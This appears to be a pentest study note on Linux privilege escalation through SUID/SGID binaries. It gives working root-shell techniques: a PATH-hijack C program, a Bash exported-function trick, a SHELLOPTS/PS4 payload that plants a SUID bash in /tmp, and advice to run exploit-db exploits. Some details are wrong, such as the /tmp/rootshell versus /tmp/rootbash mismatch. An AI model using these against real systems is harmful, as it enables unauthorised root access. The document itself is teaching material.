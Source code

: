 # Privileges Escalation - Linux
# Exploiting SUID/SGID 
- **SUID**: **Set User ID**. When a binary has the SUID bit set, anyone who runs it does so with the permissions of the file's owner, usually **root**. Useful for allowing users to run programs that require elevated privileges without giving full root access.
- **SGID**: **Set Group ID**. When a binary has the SGID bit set, anyone who runs it does so with the file's group (not the caller's).

## Where are these bits?
If we run the `ls -l` command, this output will be shown:<br> `<Obj Type><User permissions>-<Group permissions> <Obj Owner> <Obj Group>`<br>
(`Obj Type` could be `.` if it's a file or `d` if it's a directory).<br>
So, if we have an `s` in `User permissions`, the file has the SUID bit set. <br>If we have an `s` in `Grpup permissions`, the file has the SGID bit set.

## Finding SUID/SGID executables
- `find / -type f -perm /6000`: finds binaries which have the SUID **or** SGID bit set.
- `find / -type f -perm -6000`: finds binaries which have **both** the SUID **and** SGID bit set.
- `find / -type f -perm -4000`: finds binaries which have **only** the SUID bit set.
- `find / -type f -perm -2000`: finds binaries which have **only** the SGID bit set.

Type `2>/dev/null` in the end to discard the standard error.<br>
If we look for binaries and we find an obsolete one (so vulnerable, for example `/usr/sbin/exim-4.84-3`):
- Search those versions on https://exploit-db.com or somewhere else, for example Github.
- Copy the exploit and paste it on a `.sh` file, to make it runnable.
- Then run it to escalate privileges. Check if we became **root** with `whoami`.

## Shared objects
Some binaries could be vulnerable to shared objects injections.
- `strace <Binary Path> 2>&1 | grep -iE "open|access|no such file"` to look for missing dependencies.
- If we find a missing file from an accessible location (for example the `/home` directory), we could create it and place a root shell in it.

## Environment variables without full paths
Some binaries could have readable sequences of characters and they can be exploited, because they inherit the user's PATH environment variable and they attempt to execute programs without specifying an absolute path.
- `strings <Binary Path>` to look for readable ASCII or Unicode characters. If we find some interesting stuffs like (for example) `system` and `service` **without** its full path (`/usr/sbin/service`):
  - We can exploit it creating a `.c` program:
    ```
    int main() {
            setuid(0);  
            system("/bin/bash -p"); 
    }
    ```
    In which:
      - `setuid(0)` => root id.
      - `system` => command to exploit.
      - `/bin/bash -p` => privileged shell.
  - Let's compile it to make an executable file, called exactly as the command we are going to exploit: `gcc <name>.c -o service`
  - In the end, we have to tell the binary "I want you to look for `service` in my own path first, then in the others", so `PATH=.:$PATH <Binary Path>`:
    - `.` => our current directory.
    - `:$PATH` => join the original path.
  - Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

## Environment variables with full paths and vulnerable shell
Check the shell version, for example with `/bin/bash --version` (if the shell is Bash). 
<br>If the version is **below** 4.2-048, it's vulnerable and we can exploit shell functions with names that resemble file paths.
- If the previous `service` is defined **with** its full path (`/usr/sbin/service`), we can exploit it through the shell vulnerability.
- So let's create a custom function that executes bash code:
  - `function /usr/sbin/service { /bin/bash -p; }` to run a root shell
  - `export -f /usr/sbin/service`
- Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

If the shell version is **above** that one, anyway it will read `SHELLOPTS` and `PS4` variables before removing the SUID privileges (known bug). So we can exploit it with:
  - `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' <Binary Path>` in which:
    - `env -i` executes a program in an empty environment, without inheriting any variables.
    - `SHELLOPTS=xtrace` turns on the debug mode.
    - `PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)'` sets a debugging prompt, that will be printed before each command.
      - It copies the Bash shell in the `/tmp` directory and gives it execution permissions with UID = 0 (root)
- Now, running the shell with `/tmp/rootshell`, we should be able to gain access to a root shell. Check it with `whoami`.     













